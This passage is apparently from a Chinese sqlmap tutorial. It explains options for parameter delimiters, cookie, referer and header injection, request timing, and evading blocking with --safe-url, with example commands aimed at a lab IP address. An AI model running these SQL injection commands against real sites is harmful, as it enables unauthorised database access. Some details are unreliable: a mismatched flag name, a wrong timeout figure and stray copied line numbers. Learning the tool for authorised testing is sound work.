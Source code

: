 ##### 8、指定参数连接符

```
参数：--param-del

当GET或POST的数据需要用其他字符分割测试参数的时候需要用到此参数

sqlmap -u "http://192.168.226.130:86/login.php" --data "username=123;password=123" --params-del=";"
12345
```

##### 9、cookie注入

```
参数：--cookie

sqlmap -u "http://192.168.226.130:8009/shownews.asp" --cookie "id=9" --table --level 2

sqlmap -u "http://192.168.226.130:8009/shownews.asp?id=9" --cookie "cookie值" 

前提是服务器接受cookie传递参数
1234567
```

##### 10、referer/headers/proxy

```
--referer "http://url" 当--level参数设定为3或3以上时候会尝试对referer注入

--headers "client-ip:1.1.1.1"  --level 3

--proxy http://ip:prot
12345
```

##### 11、时间控制

```
--delay
可以设定两个HTTP(s)请求间的延迟，设定为0.5的时候是半秒，默认是美欧延迟的。

--timeout
可以设定一个HTTP(S)请求超过多久判定为超时，10.5表示19.5秒，默认是30秒。

--retries
当HTTP(S)超时时，可以设定重新尝试连接次数，默认是3次。
12345678
```

##### 12、绕过策略

有的web应用程序会在你多次访问错误的请求时屏蔽掉你以后的所有请求，这样在sqlmap进行探测或者注入的时候可能造成错误请求而触发这个策略，导致以后无法进行。

```
--safe-url
提供一个安全不错误的连接，每个一段时间都会去访问一下。

--safe-freq
提供一个安全不错误的连接，每次测试请求之后都会在访问一遍安全连接。
12345
```
